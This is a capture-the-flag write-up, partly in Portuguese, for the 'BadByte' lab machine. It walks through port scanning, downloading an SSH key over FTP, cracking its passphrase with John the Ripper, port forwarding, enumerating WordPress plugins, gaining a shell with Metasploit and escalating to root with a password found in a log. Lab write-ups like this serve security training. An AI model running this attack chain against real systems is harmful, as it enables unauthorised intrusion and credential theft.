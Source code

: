 # BadByte

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.72.121
```
![image](https://github.com/lufffe/Writeups/assets/90646635/459d3e7b-22c3-4c92-8eb7-f4334626e01b)

![image](https://github.com/lufffe/Writeups/assets/90646635/3d1532ff-e7ae-4663-9452-502d3cd620ff)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,30024 10.10.72.121
```
![image](https://github.com/lufffe/Writeups/assets/90646635/0a4b391f-bb51-46e1-9ad9-16aa2fc66efc)

* ### Baixando os arquivos no FTP.
```bash
ftp 10.10.72.121 -p 30024
```
![image](https://github.com/lufffe/Writeups/assets/90646635/fc8aaff0-ea3c-4ac3-8045-5fd45e81e2f0)

* ### Descobrindo senha da chave SSh.
```bash
ssh2john id_rsa > hash.txt
```

```bash
john --wordlist=~/rockyou.txt hash.txt
```

```bash
kali@kali:/etc$ proxychains nmap -sT 127.0.0.1
```
|S-chain|-<>-127.0.0.1:1337-<><>-127.0.0.1:80-<><>-OK

```bash
sudo ssh -i id_rsa -L 80:127.0.0.1:80 errorcauser@10.10.72.121
```
![image](https://github.com/lufffe/Writeups/assets/90646635/a915b8b2-8858-44ef-bf8e-f8f453e3b841)

```bash
nmap -p 80 -vv --script http-wordpress-enum --script-args type="plugins",search-limit=1500 127.0.0.1
```
![image](https://github.com/lufffe/Writeups/assets/90646635/abad5b0a-5fb4-48a6-af11-355d0b501a0b)

* ### What is the CVE number for directory traversal vulnerability?
![image](https://github.com/lufffe/Writeups/assets/90646635/7c54fbea-fdc0-47cb-80f4-72b8ecd36a30)

* ### What is the CVE number for remote code execution vulnerability?
![image](https://github.com/lufffe/Writeups/assets/90646635/3710d11b-74a2-4053-946a-79a07ffb9c88)


* ### Metasploit
```Bash
msfconsole
```

```Bash
search wordpress file manager
```

```Bash
meterpreter > getuid
```
Server username: cth

* ### Flag User
```Bash
cat /home/cth/user.txt
```

* ### Escalando Previlégio.
```Bash
find / -type f -user cth -exec ls {} + 2>/dev/null
```
![image](https://github.com/lufffe/Writeups/assets/90646635/d7d1cc6a-b56d-4dc6-b63e-1d4764cf531c)

```Bash
cat /var/log/bash.log
```
![image](https://github.com/lufffe/Writeups/assets/90646635/4a4c4fbc-2d87-4437-8d83-018e993dfb45)


```
sudo -l
```
[sudo] password for cth: G00dP@$sw0rd2021

User cth may run the following commands on badbyte:
    (ALL : ALL) ALL

* ### Flag Root.
```Bash
sudo cat /root/root.txt
```

